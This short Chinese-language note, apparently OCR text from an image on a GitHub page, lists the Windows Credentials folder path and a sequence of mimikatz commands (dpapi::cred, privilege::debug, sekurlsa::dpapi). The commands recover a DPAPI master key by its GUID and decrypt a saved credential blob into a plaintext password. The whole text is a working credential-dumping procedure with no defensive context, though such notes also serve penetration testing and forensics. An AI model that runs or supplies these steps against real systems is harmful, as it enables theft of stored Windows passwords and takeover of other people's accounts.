 	位置
	C:\Users\用户名\AppData\Local\Microsoft\Credentials
	查看命令
	>cmdkey /list
	>mimikatz log
	#dpapi::cred /in:C:\Users\administrator\AppData\Local\Microsoft\Credentials\D53BF8DC4D52D75463D46595907A4015
	记录guidMasterKey: {572115f2-80b1-4b1e-be1b-425f5c7a8bfd}
	#privilege::debug
	#sekurlsa::dpapi
	找到GUID为guidMasterKey的值下面的MasterKey: d928f5e02d2e9495f92bb…
	#dpapi::cred /in:C:\Users\administrator\AppData\Local\Microsoft\Credentials\D53BF8DC4D52D75463D46595907A4015 /masterkey: d928f5e02d2e9495f92bb…
	密码为CredentialBlob值。
